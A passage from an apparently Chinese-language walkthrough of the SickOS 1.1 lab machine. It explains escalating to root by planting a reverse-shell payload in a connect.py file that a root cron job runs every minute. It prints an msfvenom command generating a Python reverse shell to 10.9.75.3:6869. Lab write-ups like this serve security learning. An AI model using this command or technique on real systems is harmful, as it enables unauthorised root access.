 ![image-20231210151304209](./SickOS1.1.assets/image-20231210151304209.png)

会以root身份每分钟执行connect.py文件，这个connect.py就是我们刚刚给我们提示的文件，因此我们想到了提权的方法，在connect.py文件中添加payload反弹shell，因为会定期执行，我们只要等待定时任务执行即可。那么，就需要生成python中的反弹shell的payload，还是用msfvenom，这回-p指定获取python的反弹shell，命令如下（反弹到6869端口）：

```bash
msfvenom -p cmd/unix/reverse_python lhost=10.9.75.3 lport=6869 -f raw
```

![image-20231210151531828](./SickOS1.1.assets/image-20231210151531828.png)
